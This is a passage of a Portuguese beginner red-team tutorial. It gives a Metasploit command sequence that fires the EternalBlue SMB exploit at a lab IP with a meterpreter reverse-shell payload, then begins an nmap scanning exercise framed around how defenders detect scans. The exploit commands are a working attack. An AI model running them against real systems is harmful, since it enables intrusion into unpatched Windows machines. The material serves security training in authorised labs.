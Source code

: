 
Comandos iniciais:

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.50
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

---

## ⚙️ Dicas para iniciantes

- Sempre use em ambientes autorizados e de teste  
- Combine nmap para reconhecimento e Metasploit para exploração  
- Estude cada módulo do Metasploit para entender seu funcionamento  
- Documente suas atividades para aprendizado e segurança  

---

## ✅ Conclusão

nmap e Metasploit são ferramentas pilares para o Red Team N1. Dominar seu uso básico abre portas para técnicas ofensivas mais avançadas e consolida a base para seu crescimento na área.

---

# 🔴 Red Team N1: Prática – Executar Scan Básico e Entender o Impacto na Defesa

Realizar scans de rede é um dos primeiros passos para reconhecimento em testes ofensivos. Porém, é importante compreender como essa atividade pode ser percebida e respondida pelo Blue Team, para ajustar táticas e evitar detecção precoce.

---

## 🧠 Objetivo da prática

- Executar um scan básico usando nmap  
- Observar os logs e alertas gerados nos sistemas de defesa  
- Entender como o Blue Team pode detectar e reagir a esses scans  

---

## 🧱 Ferramentas necessárias

- Máquina com nmap instalado (ex: Kali Linux)  
- Ambiente de laboratório com firewall, IDS/IPS e SIEM (ex: Security Onion)  
- Acesso aos logs de segurança para análise  

---
